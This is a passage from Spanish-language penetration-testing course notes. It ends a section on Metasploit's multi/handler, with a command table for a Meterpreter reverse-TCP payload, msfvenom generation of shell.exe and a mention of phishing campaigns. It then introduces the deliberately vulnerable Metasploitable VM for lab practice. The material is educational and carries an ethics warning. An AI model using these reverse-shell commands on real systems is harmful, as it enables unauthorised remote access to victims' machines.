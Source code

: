 ### ✅ ¿Cuándo usar Connection Handler?

- Cuando **ya tienes un payload personalizado** y quieres tener control de la conexión.
- En pruebas **sin exploit directo**, como campañas de phishing.
- En entornos **donde el firewall bloquea conexiones entrantes**, pero permite salientes.

---

### ⚠️ Advertencia ética

> Nunca utilices un Connection Handler ni payloads con fines maliciosos. Solo en entornos de laboratorio o con autorización. Su uso indebido puede ser delito penal.

---

### 📌 En resumen

| Acción                 | Comando                                       |
| ---------------------- | --------------------------------------------- |
| Iniciar Metasploit     | `msfconsole`                                  |
| Usar handler           | `use exploit/multi/handler`                   |
| Establecer payload     | `set payload windows/meterpreter/reverse_tcp` |
| Configurar IP y puerto | `set LHOST <tu_IP>` / `set LPORT 4444`        |
| Escuchar conexiones    | `exploit`                                     |
| Generar payload manual | `msfvenom -p ... -o shell.exe`                |
| Esperar sesión         | `meterpreter session opened`                  |

---

[🔼](#índice)

---

## **955. Instalación de maquina de pruebas Metasploitable**

### 🛡️ ¿Qué es Metasploitable?

**Metasploitable** es una máquina virtual **vulnerable a propósito**, diseñada por Rapid7 para que puedas practicar legalmente pruebas de penetración y hacking ético con herramientas como **Metasploit**, **Nmap**, **Nikto**, **WPScan**, etc.

---

### 🎯 ¿Para qué sirve?

- Entrenarte en **seguridad ofensiva** y **auditoría de vulnerabilidades**.
- Aprender a usar herramientas como **Nmap, Nessus, Metasploit, Hydra, etc.**
- Simular ataques sin romper la ley (entorno controlado y local).
- Ideal para principiantes en ciberseguridad.

---